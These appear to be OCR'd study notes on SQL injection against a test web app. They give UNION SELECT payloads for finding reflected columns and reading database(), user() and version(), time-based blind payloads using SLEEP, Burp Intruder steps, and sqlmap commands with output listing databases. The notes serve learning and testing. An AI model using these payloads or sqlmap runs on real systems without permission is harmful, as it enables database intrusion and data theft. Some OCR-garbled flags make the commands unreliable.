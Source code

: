 •	UNION SELECT <found columns> (It required columns number)
•	artist=-1+UNION+SELECT+1,2,3+--+
o	Check which number is reflecting in render.
o	So that mean column 2 and 3 is vulnerable.
•	Check Functions
o	database() Return the default (current) database name
o	user() The user name and host name provided by the client
o	version() Return a string that indicates the MySQL server version
o	SOME MORE FUNCTIONS CAN CHECK
	BENCHMARK():Repeatedly execute an expression
	CHARSET():Return the character set of the argument
	COERCIBILITY():Return the collation coercibility value of the string argument
	COLLATION():Return the collation of the string argument
	CONNECTION_ID():Return the connection ID (thread ID) for the connection
	CURRENT_ROLE():Return the current active roles
	CURRENT_USER(), CURRENT_USER: The authenticated user name and host name
	FOUND_ROWS():For a SELECT with a LIMIT clause, the number of rows that would be returned were there no LIMIT clause
	ICU_VERSION():ICU library version
	LAST_INSERT_ID():Value of the AUTOINCREMENT column for the last INSERT
	ROLES_GRAPHML():Return a GraphML document representing memory role subgraphs
	ROW_COUNT():The number of rows updated
	SCHEMA():Synonym for DATABASE()
	SESSION_USER():Synonym for USER()
	SYSTEM_USER():Synonym for USER()
•	Put functions in the vulnerable column.
o	artist=-1+UNION+SELECT+1,database(),user()+--+
o	artist=-1+UNION+SELECT+1,user(),version()+--+

o	Blind SQL Injection
	When not able to detect or not giving an error after putting some values.
	How to detect
•	OR SLEEP(seconds) (query to delay page response)
•	artist=1+OR+SLEEP(5)--+
•	1+or+sleep(5)#
•	It will delay the page response by 5 sec
•	It will work in Time Blind, Boolean, error, blind, it will work in every case. 
	1 sec = 1000 Millisecond
•	In the right bottom corner.
	Intruder (Use in BurpSuit)
•	Send to Intruder > Clear S > select payload position >
•	Payloads > Paste (payload list) > Put space in Payload Encoding >
•	Start attack

•	Exploit SQL injection with Kali | SQLmap
o	Havij tool for windows
o	Copy Request Code of vulnerable page and put the * where we want to taste the SQL Injection.
	GET /artists.php?artist=1* HTTP/1.1
o	In Kali, create the sql.txt file for code
o	sqlmap -r sql.txt –banner
o	sqlmap -u test.php.com/artists.php?artist=1 -b
•	to test SQL Injection in given file.
	web server operating system: Linux Ubuntu
	web application technology: PHP 5.6.40, Nginx 1.19.0
	back-end DBMS operating system: Linux Ubuntu
	back-end DBMS: MySQL >= 5.0.12
	banner: '8.0.22-0ubuntu0.2Ø.04.2'
o	sqlmap -r sql.txt -dbs
•	to get databases
	available databases [2]:
	[*] acuart
	[*] information_schema
o	sqlmap -r sql.txt -D acuart –tables
•	used to dig into found databases.